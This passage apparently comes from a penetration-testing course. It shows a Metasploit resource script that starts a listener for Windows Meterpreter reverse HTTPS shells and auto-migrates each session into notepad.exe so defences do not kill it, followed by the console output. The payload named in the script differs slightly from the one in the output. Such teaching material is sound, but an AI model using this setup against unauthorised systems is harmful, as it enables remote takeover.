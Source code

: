 In a penetration test, we may need to set up several multi/handler listeners each time we want to receive an incoming reverse shell. We could either let Metasploit run in the background the whole time or start Metasploit and manually set up a listener each time. We could also create a resource script to automate this task for us.

Let's create a resource script that starts a multi/handler listener for a non-staged Windows 64-bit Meterpreter payload. To do this, we can create a file in the home directory of the user kali named listener.rc and open it in an editor such as Mousepad.2

We first need to think about the sequence of the commands we want to execute. For this example, the first command is to activate the multi/handler module. Then, we set the payload, which in our case, is windows/meterpreter_reverse_https. Next, we can set the LHOST and LPORT options to fit our needs.

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_https
set LHOST 192.168.119.4
set LPORT 443
```

In addition, we can configure the AutoRunScript option to automatically execute a module after a session was created. For this example, let's use the post/windows/manage/migrate module. This will cause the spawned Meterpreter to automatically launch a background notepad.exe process and migrate to it. Automating process migration helps to avoid situations where our payload is killed prematurely either by defensive mechanisms or the termination of the related process.

```bash
set AutoRunScript post/windows/manage/migrate 
```

Let's also set ExitOnSession to false to ensure that the listener keeps accepting new connections after a session is created.

```bash
set ExitOnSession false
```

We can also configure advanced options such as ExitOnSession in multi/handler and AutoRunScript in payloads by using show advanced within the activated module or selected payload.

Finally, we'll add run with the arguments -z and -j to run it as a job in the background and to stop us from automatically interacting with the session.

```bash
run -z -j
```

Now, let's save the script and start Metasploit by entering msfconsole with the resource script as argument for -r.

```bash
kali@kali:~$ sudo msfconsole -r listener.rc
[sudo] password for kali:
...

[*] Processing listener.rc for ERB directives.
resource (listener.rc)> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (listener.rc)> set PAYLOAD windows/meterpreter/reverse_https
PAYLOAD => windows/meterpreter/reverse_https
resource (listener.rc)> set LHOST 192.168.119.4
LHOST => 192.168.119.4
resource (listener.rc)> set LPORT 443
LPORT => 443
resource (listener.rc)> set AutoRunScript post/windows/manage/migrate
AutoRunScript => post/windows/manage/migrate
resource (listener.rc)> set ExitOnSession false
ExitOnSession => false
resource (listener.rc)> run -z -j
[*] Exploit running as background job 0.
```